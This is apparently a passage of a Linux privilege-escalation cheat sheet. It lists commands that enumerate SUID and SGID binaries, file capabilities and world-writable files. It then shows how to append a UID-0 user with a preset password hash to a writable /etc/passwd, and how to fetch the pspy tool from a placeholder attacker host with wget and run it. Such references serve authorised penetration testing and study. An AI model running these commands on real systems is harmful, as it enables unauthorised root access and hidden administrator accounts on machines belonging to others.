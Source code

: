### SUID Binaries

Find binaries with the SUID bit set:

```bash
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

> **Reference:** [GTFOBins](https://gtfobins.github.io/) for SUID exploitation.

### SGID Binaries

Find binaries with the SGID bit set:

```bash
find / -perm -g=s -type f 2>/dev/null
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```

### File Capabilities

Check for binaries with granted capabilities:

```bash
getcap -r / 2>/dev/null
```

### World-Writable Files and Directories

Find writable files and directories:

```bash
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

### Writable /etc/passwd

If writable, add a privileged user:

```bash
openssl passwd -1 -in <PASSWORD>
echo 'manoj:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:manoj:/home/manoj:/bin/bash' >> /etc/passwd
su manoj
```

## Service and Process Monitoring

### Monitor System Activity

Use `pspy` to monitor processes and cron jobs:

```bash
cd /var/tmp/
wget http://<ATTACKER_IP>/pspy32 || wget http://<ATTACKER_IP>/pspy64
chmod 755 pspy32 pspy64
./pspy64 -pf -i 1000
```
